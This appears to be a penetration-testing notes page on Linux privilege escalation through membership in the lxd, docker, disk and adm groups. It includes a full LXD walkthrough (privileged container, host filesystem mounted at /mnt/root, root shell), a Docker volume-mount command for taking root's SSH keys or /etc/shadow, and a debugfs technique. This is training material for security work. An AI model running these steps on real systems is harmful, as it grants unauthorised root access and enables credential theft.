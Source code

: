 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Privileged Groups

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

```shell-session
devops@target:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@target:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialisation process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@target:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@target:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@target:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@target:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@target:~$ lxc start r00t
devops@target:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers.&#x20;

One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command creates a new Docker instance with the /root directory on the host file system mounted as a volume.&#x20;

Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

### Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

### ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

```shell-session
secaudit@target:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```
